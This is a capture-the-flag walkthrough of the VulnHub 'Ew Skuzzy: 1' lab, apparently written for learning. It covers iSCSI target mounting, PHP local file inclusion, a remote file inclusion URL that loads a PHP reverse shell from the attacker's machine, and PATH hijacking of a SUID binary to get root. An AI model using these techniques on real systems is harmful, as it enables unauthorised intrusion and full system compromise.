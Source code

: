 ```yaml
---
layout: post
title:  "Ew Skuzzy: 1"
excerpt: CTF by @vortexau
tags: [vulnhub, ctf, walkthrough]
---
```


## Goal
flags
uid=0(root) gid=0(root) groups=0(root)

## Download
[https://www.vulnhub.com/entry/ew_skuzzy-1,184/](https://www.vulnhub.com/entry/ew_skuzzy-1,184/)

## Walkthrough
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-nmap-002.png)
<br><br>

Looking at the website we get a hint to scan the website using dirbuster
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-home-001.png)
<br><br>

dirb results
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-dirb-003.png)
<br><br>
*snippet of dirb results

All of the dirb results were junk except the last long URL
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-dirb-004.png)
<br><br>

Looking at the page, oh hello Lionel
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-hello-005.png)
<br><br>

Let's look at the page source and there is a long commented string (actually strings)
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-hellosource-006.png)
<br><br>

Base64 decode and Lionel trolled us
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-hellobase64-007.png)
<br><br>

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-iscsi-008.png)
<br><br>

fdisk reveals a new disk available at /dev/sdb
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-fdisk-009.png)
<br><br>

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag1-010.png)
<br><br>
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-bobsdisk-011.png)
<br><br>

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag2-012.png)
<br><br>
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag3-013.png)
<br><br>

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-marquee-014.png)
<br><br>

Source code reveals more long commented strings
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-marqueesource-015.png)
<br><br>


Base64 of strings reveal a Seinfeld troll :P
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-marqueebase64-016.png)
<br><br>


Next URL looks more interesting and states in the title we're on the right track
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-017.png)
<br><br>

Looking at the links, first three are nothing of importance 

welcome.php
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-018.png)
<br><br>

flag.php
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-019.png)
<br><br>

party.php also includes link out to http://cultofthepartyparrot.com
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-020.png)
<br><br>

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-021.png)
<br><br>

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-022.png)
<br><br>

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-phplfi-023.png)
<br><br>

Base64 on the string reveals the source code and it seems that normal php tags use#php## instead
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-database64-024.png)
<br><br>

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag4-025.png)
<br><br>
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-reader-026.png)
<br><br>
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-keyneeded-027.png)
<br><br>

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to#php##
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-phpreverse-028.png)
<br><br>

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-reverseshell-029.png)
<br><br>

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-suid-030.png)
<br><br>

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-alicebackup-031.png)
<br><br>

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-pathid-032.png)
<br><br>

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-newid-033.png)
<br><br>

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag5-34.png)
<br><br>
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
